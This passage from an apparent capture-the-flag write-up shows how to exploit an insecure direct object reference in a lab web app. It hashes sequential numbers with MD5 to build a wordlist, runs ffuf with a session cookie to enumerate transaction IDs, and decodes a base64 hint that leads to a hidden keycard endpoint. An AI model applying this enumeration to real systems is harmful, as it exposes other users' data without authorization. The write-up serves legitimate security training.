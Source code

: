 Either by fuzzing or just guessing, we see that if we supply the `id` as a `GET` parameter, we receive the `Transaction not found` error.

![Web 5000 Transactions Two](web_5000_transactions2.webp){: width="1000" height="500" }

Since the application gives a valid ID after making a transaction, supplying that in the `id` parameter instead, we receive the details for the transaction.

![Web 5000 Transactions Three](web_5000_transactions3.webp){: width="1000" height="500" }

At this point, we notice that the transaction IDs given seem like an `MD5` hash. Trying to confirm this by cracking it, we can see it is just a sequential number `MD5` hashed.

![Transaction Id Hash](transaction_id_hash.webp){: width="1000" height="400" }

### Fuzzing for Transactions

Knowing this, we can generate a wordlist for all the numbers between `1-1400`, `MD5` hashed as follows:

```console
$ for i in $(seq 1 1400); do echo -n $i | md5sum | cut -d ' ' -f 1 >> transaction_ids.txt; done
```

Now, using this wordlist to fuzz for transaction IDs, we see an interesting response for the `ff49cc40a8890e6a60f40ff3026d2730` transaction ID, which is the `MD5` hash of `1333`.

```console
$ ffuf -u 'http://10.10.122.98:5000/transactions?id=FUZZ' -H 'Cookie: session=eyJuYW1lIjoiZ2xpdGNoIiwidXNlciI6MTAxfQ.Z18RAA.7KsC3ZU-2npLogvEXOuJchNq7yU' -w transaction_ids.txt -mc all -fc 404 -t 100
...
0e55666a4ad822e0e34299df3591d979 [Status: 200, Size: 126, Words: 13, Lines: 7, Duration: 120ms]
28e209b61a52482a0ae1cb9f5959c792 [Status: 200, Size: 129, Words: 13, Lines: 7, Duration: 523ms]
ff49cc40a8890e6a60f40ff3026d2730 [Status: 200, Size: 201, Words: 13, Lines: 7, Duration: 558ms]
9cb67ffb59554ab1dabb65bcb370ddd9 [Status: 200, Size: 128, Words: 13, Lines: 7, Duration: 953ms]
3d779cae2d46cf6a8a99a35ba4167977 [Status: 200, Size: 128, Words: 13, Lines: 7, Duration: 127ms]
c73dfe6c630edb4c1692db67c510f65c [Status: 200, Size: 126, Words: 13, Lines: 7, Duration: 97ms]
8edd72158ccd2a879f79cb2538568fdc [Status: 200, Size: 129, Words: 13, Lines: 7, Duration: 512ms]
```
{: .wrap }

Checking the details for this transaction, we see an interesting `base64` encoded string in the status.

![Web 5000 Transactions Four](web_5000_transactions4.webp){: width="1000" height="500" }

Decoding this string, we are able to discover the endpoint for the keycard.

```console
$ echo 'SGk[REDACTED]ZyA=' | base64 -d
Hi McSkidy <3 /se[REDACTED]37.png
```

Visiting this endpoint on the web application, we find the keycard with the password on it being: `Bl[REDACTED]TW`.
